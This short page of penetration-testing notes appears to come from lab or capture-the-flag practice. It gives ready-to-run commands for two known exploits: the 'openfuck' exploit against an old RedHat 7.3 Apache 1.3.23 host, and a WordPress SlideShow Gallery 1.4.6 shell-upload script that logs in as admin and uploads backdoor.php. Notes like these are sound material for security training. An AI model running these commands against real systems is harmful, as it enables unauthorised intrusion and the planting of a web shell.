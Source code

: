 Command to exploit: 
We know from our previous enumeration phase this is a RedHat 7.3 with an Apache/1.3.23

```bash
./openfuck 0x73 10.11.1.22
   # Offset to use: 
     # 0x73 - RedHat Linux 7.3 (apache-1.3.23-11)1
     # 0x74 - RedHat Linux 7.3 (apache-1.3.23-11)2
   # Host to attack:
     # 10.11.1.22
```

## SlideShow 1.4.6 (WordPress, need to be authenticated) 
Important link:
- https://www.homelab.it/index.php/2014/09/16/wordpress-slideshow-gallery-1-4-6-shell-upload-exploit/
Command:
```bash
python slideshow.py -t http://derpnstink.local/weblog/  -u admin -p admin -f backdoor.php
```
